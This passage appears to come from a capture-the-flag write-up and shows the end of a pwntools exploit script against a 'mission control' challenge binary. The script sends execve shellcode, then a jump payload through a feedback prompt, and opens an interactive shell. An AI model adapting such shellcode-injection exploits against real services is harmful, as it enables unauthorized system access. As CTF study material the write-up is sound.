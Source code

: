 ```python

    r.recvuntil(b'What transmission would you like to send them?')
    r.sendline(shellcode_execve)



    # jump to beginning of feedback and execute
    r.recvuntil(b'Exit mission control')
    r.sendline(b'3')
    r.recvuntil(b'Thank you for using mission control! If you could take a second to write a quick mission report, we would really appreciate it: ')
    r.sendline(payload_jmp)


    # enjoy the shell
    r.interactive()
    
    

if __name__ == "__main__":
    main()
```



<br>
<br>


